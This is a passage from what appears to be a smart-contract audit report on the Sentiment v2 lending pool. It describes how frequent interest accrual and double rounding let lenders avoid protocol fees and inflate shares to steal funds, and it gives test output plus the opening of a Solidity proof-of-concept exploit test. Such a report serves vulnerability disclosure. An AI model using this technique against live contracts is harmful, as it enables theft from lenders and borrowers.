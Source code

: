 
### Impact

- Fees to the protocol will shutdown after a certain ratio is reached. Since [`interestAccrued`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/Pool.sol#L381-L383) is small each time and protocol [fees are rounded down twice](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/Pool.sol#L387-L395), protocol lenders can use such tricks and accrue frequently to avoid paying any fees to the protocol owner.
- The share inflation can cause loss of funds to both lenders and borrowers, and a malicious user with correct inputs that do not lose value due to precision loss can steal funds from other people in such systems.
- The internal bookkeeping of the protocol would be incorrect.

### PoC

The output of the test is:
```text
  ================
  One day of constant accrual
  Total Borrow Assets:  7201
  Total Borrow Shares:  1
  Total Deposit Assets:  7201
  Total Deposit Shares:  1
  ================
  Two days of constant accrual
  Total Borrow Assets:  14401
  Total Borrow Shares:  1
  Total Deposit Assets:  14401
  Total Deposit Shares:  1
  ================
  Total Borrow Assets:  14401
  Total Borrow Shares:  1
  Total Deposit Assets:  43202
  Total Deposit Shares:  2
  ================
```
PoC:
```solidity
   function testInflateShares() public {
        address attacker = makeAddr("Attacker");
        address victim = makeAddr("Victim");
        address liquidator = makeAddr("Liquidator");

        vm.startPrank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset3Oracle)); // 1:1 with Eth
        riskEngine.setOracle(address(asset2), address(asset3Oracle)); // 1:1 with Eth
        vm.stopPrank();

        MockERC20 borrowAsset = asset1; 
        MockERC20 collateralAsset = asset2;
        uint256 amountOfAsset = 1_000 ether;
        uint256 vicPoolId;
        address attPosition;
        bytes memory data;
        Action memory action;

        /**
        * =============================
        *           SETUP
        * =============================
         */
        {
            // == Minting assets to actors
            borrowAsset.mint(attacker, amountOfAsset);
```